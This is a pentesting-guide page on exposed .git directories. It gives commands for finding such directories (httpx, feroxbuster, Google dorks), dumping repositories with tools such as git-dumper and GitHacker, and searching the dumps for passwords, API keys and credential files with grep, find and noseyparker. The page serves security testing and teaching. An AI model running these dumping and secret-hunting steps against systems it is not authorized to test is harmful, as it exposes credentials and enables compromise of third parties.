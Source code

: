 ```yaml
---
description: OWASP A3:2017-Sensitive Data Exposure
---
```


# Exposed Git Repositories

## Theory

The exposure of Git repositories on a webserver often occurs due to misconfigurations, where the `.git` directory is left accessible without proper access controls.&#x20;

If we encounter an application with an exposed .`git` directory, we can retrieve the entire repository. This enables us to extract valuable information, such as the remote repository address, commit history, logs, and various metadata. Accessing these details may reveal sensitive data, including proprietary code, hard-coded API keys, and credentials, which can then be leveraged to escalate our attack and further compromise the application's security.

## Practice

### Enumeration

To detect exposed Git repositories, we can utilize tools and commands below.

{% tabs %}
{% tab title="httpx" %}
We may use [httpx](https://github.com/projectdiscovery/httpx) to identify exposed repositories across a list of domains using the command below. It checks if the `.git/HEAD` file contains `refs/heads` .

Note that this one-liner will only identify repositories if directory listing is enabled.

```bash
cat domains.txt | httpx -path /.git/HEAD -silent -mr "refs/heads"
```
{% endtab %}

{% tab title="Feroxbuster" %}
When performing web directory fuzzing on a target with [Feroxbuster](https://github.com/epi052/feroxbuster) or any other tool, using the [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt) wordlist from [SecLists](https://github.com/danielmiessler/SecLists) can help uncover any exposed `.git` directories.

```bash
feroxbuster -u http://target.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
{% endtab %}

{% tab title="Google Dorks" %}
We can use the Google search engine to search for exposed `.git` repository with the following [Google Dorks](exposed-git-repositories.md#google-dorks)

```bash
intext:"index of" ".git"
{intitle: indexof/.git }
intitle:"index of" "/.git/config"
filetype:git -github.com inurl:"/.git"
```
{% endtab %}

{% tab title="Gitfinder" %}
This python script from [GitTools](https://github.com/internetwache/GitTools) identifies websites with publicly accessible `.git` repositories from a list of domains. It checks if the `.git/HEAD` file contains `refs/heads`.

```
./gitfinder.py -i domains.txt
```
{% endtab %}
{% endtabs %}

### Dump&#x20;

Once an exposed Git repository is identified, the next step is to perform a repository dump to extract its contents.

{% tabs %}
{% tab title="GitTools" %}
**gitdumper** from [GitTools](https://github.com/internetwache/GitTools) can be used to download as much as possible from the found .git repository from webservers which do not have directory listing enabled.

```
./gitdumper.sh http://target.com/.git/ dest-dir
```

**extractor.sh** from [GitTools](https://github.com/internetwache/GitTools) can then be used in combination with **gitdumper** in case the downloaded repository is incomplete. This tool extract commits and their content from a broken repository.

```
./extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
```
{% endtab %}

{% tab title="GitHacker" %}
[GitHacker](https://github.com/WangYihang/GitHacker) (Python) is a multiple threads tool to exploit the `.git` folder leakage vulnerability.

```bash
# quick start
githacker --url http://127.0.0.1/.git/ --output-folder result
# brute for the name of branchs / tags
githacker --brute --url http://127.0.0.1/.git/ --output-folder result
# exploit multiple websites, one site per line
githacker --brute --url-file websites.txt --output-folder result
```
{% endtab %}

{% tab title="goop" %}
[goop](https://github.com/nyancrimew/goop) (Golang) is tool to dump a git repository from a website.

```bash
goop target.com
```
{% endtab %}

{% tab title="git-dumper" %}
[git-dumper](https://github.com/arthaud/git-dumper) (python) is a tool to dump a git repository from a website.

```bash
git-dumper http://target.com/.git ~/TargetOutputFolder
```
{% endtab %}
{% endtabs %}

### Hunting

After successfully dumping an exposed Git repository, the next step is to hunt for valuable secrets within the retrieved data.

{% tabs %}
{% tab title="Hard-coded Secrets" %}
#### Noseyparker

[Noseyparker](https://github.com/praetorian-inc/noseyparker) is a command-line program that finds secrets and sensitive information in textual data and Git history. We can use this tool to recursively search sensitive information in a repository.

```bash
# Scan filesystem / folder
noseyparker scan --datastore np.myDataStore /path/to/gitRepo

# Get results
noseyparker report -d np.myDataStore
```

{% hint style="info" %}
You may use this tools to search sensitives files in a [mounted NFS share](../../../network-pentesting/protocols/nfs.md#mount-nfs-shares), a [mounted SMB share](../../../network-pentesting/protocols/smb.md#acls-of-shares-file-folder), or even [exiltrated data](../../../redteam/exfiltration/).
{% endhint %}

#### Bash

Alternatively, `find` command can be use to find configuration files by recursively searching files with a specific extension or name and the grep command can be use to find passwords in files by recursively searching text patterns.

```bash
# Search for patterns in file
grep -ari 'password'
grep -ari 'api_key'
grep -ari 'api_key'

# Search for configuration/sensitive files
find / -type f -name *.conf 2>/dev/null
find / -type f -name *pass* 2>/dev/null
```
{% endtab %}

{% tab title="Origin" %}
Sometimes, we can find HTTP credential in the remote repository URL&#x20;

```bash
git config --get remote.origin.url
```
{% endtab %}

{% tab title="Commit History" %}
Even if  [Noseyparker](https://github.com/praetorian-inc/noseyparker) can do it for us, we may manually search for sensitive informations in previous commits.

```bash
# Get list of commits
git log

# Get list of commits as a graph
git reflog

# Get list of commit filtred by authors
git log --author="John Doe"

# Check code change over two commits
git diff <FISRT_COMMIT_ID> <SECOND_COMMIT_ID>

# Checkout on a specific commit
git checkout <COMMIT_ID>

# Finally hunt for secrets on this new commit
cat secrets.txt
grep -ari 'password'
....
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure" %}

{% embed url="https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37" %}

{% embed url="https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75" %}
